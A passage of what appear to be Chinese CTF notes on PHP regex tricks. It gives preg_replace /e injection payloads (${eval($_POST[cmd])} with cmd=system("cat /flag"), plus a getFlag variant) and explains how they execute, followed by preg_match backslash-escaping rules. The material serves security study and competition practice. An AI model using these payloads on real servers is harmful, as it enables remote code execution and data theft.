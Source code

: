 payload2：
```php
?\S*=${eval($_POST[cmd])}
// 再 POST 一个参数 cmd=system("cat /flag");

// 或者解析一个题目给出的可以利用的函数
// function getFlag(){
//   	@eval($_GET['cmd']);
// }
?\S*=${getFlag()}&cmd=system("ls");

```

#### 原理

```php
var_dump(phpinfo()); // 结果：布尔 true

var_dump(strtolower(phpinfo()));// 结果：字符串 '1'
// 先执行 phpinfo 得到返回值是 1，再 strtolower("1") 返回值是 1 

var_dump(preg_replace('/(.*)/ie','1','{${phpinfo()}}'));// 结果：字符串'11'
// 先解析 {${phpinfo()}}，其中 phpinfo 返回 1， 解析得 {$1}
// var_dump(preg_replace('/(.*)/i','1','任意字符')); 返回 11

var_dump(preg_replace('/(.*)/ie','strtolower("\\1")','{${phpinfo()}}'));// 结果：空字符串''

var_dump(preg_replace('/(.*)/ie','strtolower("{${phpinfo()}}")','{${phpinfo()}}'));// 结果：空字符串''
// 这里的'strtolower("{${phpinfo()}}")'执行后相当于 strtolower("{${1}}") 又相当于 strtolower("{null}") 又相当于 '' 空字符串
```

### php 正则反斜杠过滤问题

`preg_match` 匹配反斜杠需要四个反斜杠：

```php
preg_match("/\\\\/", $str1)
// preg_match("/\\/", $str1) 无效
```
- 原理：先由 php 解析器解析成`\\` ，再由正则匹配解析成`\`

再看一个特殊的：
```php
preg_match("/\\|\\\\/", $str2)
```
- 这个匹配的是 `|\`

先由 php 解析器解析为 `\|\\` ，再由正则解析为 `|\


---
# 技巧

